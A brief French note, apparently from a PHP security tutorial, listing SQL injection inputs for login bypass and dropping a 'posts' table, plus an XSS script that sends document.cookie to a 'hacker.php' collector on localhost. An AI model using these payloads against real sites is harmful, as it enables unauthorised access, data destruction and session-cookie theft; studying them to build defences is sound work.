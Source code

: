 sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1.


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost/php-security/xss/hacker.php?cookie='+escape(document.cookie)</script>



